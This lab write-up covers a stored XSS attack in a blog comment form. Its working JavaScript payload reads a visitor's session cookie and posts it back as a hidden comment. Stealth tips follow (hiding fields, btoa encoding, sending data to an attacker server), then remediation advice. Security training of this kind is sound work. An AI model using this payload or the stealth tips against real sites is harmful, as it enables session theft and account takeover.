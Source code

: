 # Lab: Exploiting Stored XSS to Steal Cookies

## 1. Title & Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in a blog comment feature can be exploited to steal a victim’s session cookie and impersonate them.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* This allows **arbitrary JavaScript injection**.
* A visiting victim executes attacker-controlled code in their browser.

---

## 3. Proof of Concept (PoC)
```html
<script>
    window.addEventListener("DOMContentLoaded",function () {
        var form = document.querySelector('.add-comment form');

        var data = new FormData(form);
        var sessioncookie = document.cookie.split('; ').find(c=>c.startsWith('session='));

        data.append('comment',"<span style='display:none'>"+sessioncookie+"</span>");
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');

        fetch(form.action,{
            method:"POST",
            mode:"no-cors",
            body:data,
            credentials:"include"
        })
    })
</script>
```
**Screenshot**

![Injected payload in the comment form.](Images/Payload.png)
![Network tab showing the forged POST request.](Images/NetworkTab.png)
![Blog post page showing the hidden comment containing the stolen session cookie.](Images/Comment.png)

---

## 4. Exploit Workflow

1. Attacker posts the payload as a comment.
2. Victim views the blog post.
3. Victim’s browser executes the attacker’s script.
4. Script exfiltrates the victim’s session cookie by posting it back as a hidden comment.
5. Attacker reads the victim’s cookie, imports it into their browser, and hijacks the session.

---

## 5. Stealth Considerations

* The initial proof-of-concept exposed the cookie in a visible comment, which is not stealthy.
* Stealthier options include:

  * Use `display:none` to hide the stolen data.
  * Exfiltrate via a benign-looking field (e.g., `website`).
  * Encode the cookie before sending (`btoa`).
  * In real attacks, exfiltrate data to an attacker-controlled server (blocked in this lab).

---

## 6. Impact

* Full account takeover via stolen session ID.
* CSRF protections are bypassed, as the CSRF token is accessible.
* Trust in the application is broken (stored XSS affects all future visitors).

---

## 7. Remediation

* **Contextual output encoding:** escape user input before rendering.
* **HttpOnly cookies:** prevent JavaScript access to sensitive cookies.
* **Content Security Policy (CSP):** restrict where scripts can execute.
* **Input validation & sanitization:** prevent injection of arbitrary scripts.

---

## 8. Reflection

This lab demonstrates how a seemingly simple XSS bug can escalate into full account takeover.
Adding `HttpOnly` to session cookies alone would have prevented cookie theft, but the root cause is **unsafe rendering of untrusted input**.
This highlights why secure coding practices and **defense-in-depth** are critical.
